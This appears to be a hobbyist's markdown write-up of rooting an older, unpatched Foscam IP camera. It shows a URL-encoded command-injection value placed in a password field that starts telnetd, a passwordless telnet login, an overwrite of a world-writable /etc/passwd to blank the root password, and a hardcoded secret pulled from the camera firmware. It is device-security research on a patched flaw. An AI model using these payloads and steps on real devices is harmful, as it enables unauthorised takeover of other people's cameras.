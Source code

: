 # Trying to get shell access

# Poking around

One of the best known vulnerabilities around is/was the hardcoded ftp user 'r' with password 'r'. Logging in and viewing properties reveals the username "ftpuser1". Trying same, and blank, as passwords for that user didn't work for logging into ftp though.

Although the service isn't active, /usr/bin/telnetd apparently does exist! 

Back to the good vulnerabilities, people, Foscam only recently fixed [a command injection vulnerability](https://www.talosintelligence.com/reports/TALOS-2017-0334/). Although all my personal devices were too updated to use it, a buddy donated one of his older non-updated cameras for testing.

## Success! 
Because inputs aren't sanitized, changing a user-account password to "%3B%2Fusr%2Fsbin%2Ftelnetd" (AKA ";/usr/sbin/telnetd") will start the telnet server! (Until you reboot. UPDATE: or not! Apparently ftp users are re-created at each boot, probably due to the squashed filesystem being re-created on boot.)

## Setback! 
The telnet service is indeed active but won't take either my actual admin password, or the r:r combination. !?

## Unbelievably lucky success!
MORE SUCCESS! Apparently the telnet server, absurdly, WILL ALLOW THE ftpuser1 account with no password!!! What?!

But wait! There's more!

Get ready for the absolute height of absurdity:

```
$ id
uid=1001(ftpuser1) gid=1001(ftpuser1) groups=1001(ftpuser1)
$ ls -al /etc/pass*
-rwxrwxrwx    1 1000     ftpgroup       117 Oct 16 00:01 /etc/passwd
-rwxrwxrwx    1 1000     ftpgroup       105 Oct 16 00:01 /etc/passwd-
$ cat /etc/pass*
root:$1$uYfJBoag$N8ofdlVBVcfzOY7utbTfo0:0:0::/root:/bin/sh
ftpuser1:ttirx5dmXIQ6M:1001:1001:ftpgroup:/mnt/sd:/bin/sh
root:$1$uYfJBoag$N8ofdlVBVcfzOY7utbTfo0:0:0::/root:/bin/sh
ftpuser1:x:1001:1001:ftpgroup:/mnt/sd:/bin/sh
```

# Getting root and getting to the point

The no-password ftpuser1 account has write priveleges for passwords?!
Okaaayyyyyyy

(It's worth noting that "ttirx5dmXIQ6M" is on that [that handy dandy list](https://www.seancassidy.me/etc/passwords.txt) of blank password hashes, so everything's checking out so far.)

```
$ echo $'root:ttirx5dmXIQ6M:0:0::/root:/bin/sh\nftpuser1:ttirx5dmXIQ6M:1001:1001:ftpgroup:/mnt/sd:/bin/sh' > /etc/passwd
$ cat /etc/passwd
root:ttirx5dmXIQ6M:0:0::/root:/bin/sh
ftpuser1:ttirx5dmXIQ6M:1001:1001:ftpgroup:/mnt/sd:/bin/sh
```

And telnetting in again with root, and poking around toward out goal.....

```
# id
uid=0(root) gid=0(root) groups=0(root)
# strings /mnt/mtd/app/bin/webService | grep 9bp
9bpwfjxoqbduf39
```

Well, well, well!

This delicious find having been found, it doesn't help for any of my updated cameras where this exploit is patched :(
